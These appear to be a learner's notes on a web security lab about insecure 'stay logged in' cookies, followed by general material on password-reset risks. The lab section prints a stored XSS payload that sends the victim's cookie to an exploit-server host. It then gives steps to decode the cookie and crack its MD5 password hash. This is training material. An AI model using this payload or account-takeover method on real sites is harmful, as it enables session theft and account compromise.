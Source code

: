 ```
            mode: "no-cors",
            body: myform
        })
    })
</script>
```
- It workd document.cookie were returned And the victim's stay logged in was shown
- I tried putting the login details in the session but it doesn't work
- I noticed that the stay logged in is an encoded base64 of carlos:md5hash number
- I copied the md5 number and went to https://md5decrypt.net/ and pasted it there
- The plain password was returned to me and I logged in with the password
- I deleted the password and the lab was solved

# Lab Solution
- With Burp running, use your own account to investigate the "Stay logged in" functionality. 
- Notice that the stay-logged-in cookie is Base64 encoded.
- In the Proxy > HTTP history tab, go to the Response to your login request and highlight the stay-logged-in cookie, to see that it is constructed as follows: username+':'+md5HashOfPassword
- You now need to steal the victim user's cookie. 
- Observe that the comment functionality is vulnerable to XSS.
- Go to the exploit server and make a note of the URL.
- Go to one of the blogs and post a comment containing the following stored XSS payload, remembering to enter your own exploit server ID:
```
<script>document.location='//YOUR-EXPLOIT-SERVER-ID.exploit-server.net/'+document.cookie</script>
```
- On the exploit server, open the access log. There should be a GET request from the victim containing their stay-logged-in cookie.
- Decode the cookie in Burp Decoder. The result will be: carlos:26323c16d5f4dabff3bb136f2460a943
- Copy the hash and paste it into a search engine. This will reveal that the password is onceuponatime.
- Log in to the victim's account, go to the "My account" page, and delete their account to solve the lab.

# Resetting user passwords
- In practice some users will forget their password, so it is common to have a way for them to reset it. 
- As the usual password-based authentication is obviously impossible in this scenario, websites have to rely on alternative methods to make sure that the real user is resetting their own password. 
- For this reason, the password reset functionality is inherently dangerous and needs to be implemented securely.
- There are a few different ways that this feature is commonly implemented, with varying degrees of vulnerability.

# Sending passwords by email
- It should go without saying that sending users their current password should never be possible if a website handles passwords securely in the first place. 
- Instead, some websites generate a new password and send this to the user via email.
- Generally speaking, sending persistent passwords over insecure channels is to be avoided. 
- In this case, the security relies on either the generated password expiring after a very short period, or the user changing their password again immediately. 
- Otherwise, this approach is highly susceptible to man-in-the-middle attacks.
- Email is also generally not considered secure given that inboxes are both persistent and not really designed for secure storage of confidential information. 
- Many users also automatically sync their inbox between multiple devices across insecure channels.
